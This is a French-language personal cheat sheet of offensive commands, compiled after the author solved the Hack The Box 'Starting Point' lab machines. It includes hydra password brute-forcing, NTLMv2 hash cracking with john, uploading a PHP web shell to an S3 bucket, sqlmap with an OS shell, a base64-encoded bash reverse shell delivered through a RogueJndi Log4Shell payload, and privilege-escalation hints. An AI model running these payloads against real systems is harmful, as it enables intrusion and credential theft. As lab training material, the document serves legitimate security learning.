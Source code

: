 # Starting point

Ceci est un résumé des commandes utiles que j’ai pu noter après avoir root toutes les machines starting-point (tous les tiers + les machines VIP).

```bash
smbclient -L \\\\IP
```

pour avoir la liste des shares (\ en double pour escape)

```bash
smbclient \\\\IP\\WorkShares
```

Scanner tous les ports:

```bash
nmap -p-
```

Interagir avec Redis:

```bash
redis-cli
```

[https://linuxhint.com/see-all-redis-keys/#:~:text=To list the keys in,to get all the keys](https://linuxhint.com/see-all-redis-keys/#:~:text=To%20list%20the%20keys%20in,to%20get%20all%20the%20keys).

remmina pour RDP sur linux

se connecter à une db mongo à distance:

```bash
./mongo mongodb://{target_IP}:27017
```

trouver l’info nommée flag dans la bdd mariaDB:

```bash
db.flag.find().pretty()
```

hydra HTTP:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "/:username=^USER^&password=^PASS^":failmessage
```

Wappalyzer pour analyser les sites web

John pour les challenges / responses NTLM V2

Responder pour capturer les challenges

Pour john bien spécifier la wordlist comme ça:

```bash
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt
```

awscli pour interagir avec les instances amazon

Initier le setup (mettre des valeurs bidons):

```bash
aws configure
```

copier du code sur le serveur distant:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

bible SSTI: [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)

Burp gère tout même l’encodage

Pas mal de fois ou il faut tester les mdp courants en manuel

[mssqlclient.py](http://mssqlclient.py) pour les db sql microsoft

Avoir un réel shell : 

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```python
export PATH=/tmp:$PATH pour SUID
```

Exemple de SQLMap

```python
sqlmap -u 'http://10.129.160.25/dashboard.php?search=any+query' --cookie="PHPSESSID=9ffr65l45v8ao6l5jirfhobbhe" --os-shell
```

Possible de faire une privesc en faisant spawn un shell avec vi ou vim

Au lieu d’utiliser wireshark : on peut utiliser tcpdump pour intercepter:

```python
sudo tcpdump -i tun0 port 389
```

payload base64 pour jndi

```python
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' |
base64
```

utiliser rogue jndi

```python
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

technique pour upgrade le shell: 

```python
script /dev/null -c bash
```

Trouver des users avec MongoDB

```python
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Créer un password et le hasher:

```python
mkpasswd -m sha-512 Password1234
```

Pour faire un scan UDP (très long):

```python
sudo nmap -sU
```

```python
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc
69/udp open|filtered tftp
```

LXC peut être utilisé pour faire du privesc avec les containers

exemple de listing rsync:

```python
rsync --list-only 10.129.115.240::
```

alternative au netcat:

```python
ss -tln
```

exemple de local port forwarding pour utiliser un tool depuis parrot vers la machine cible

Permissions fichier windows :

```python
icacls
```

Pour lire les fichiers swap:

```python
vim -r
```

Lien utile pour GTFO

[https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)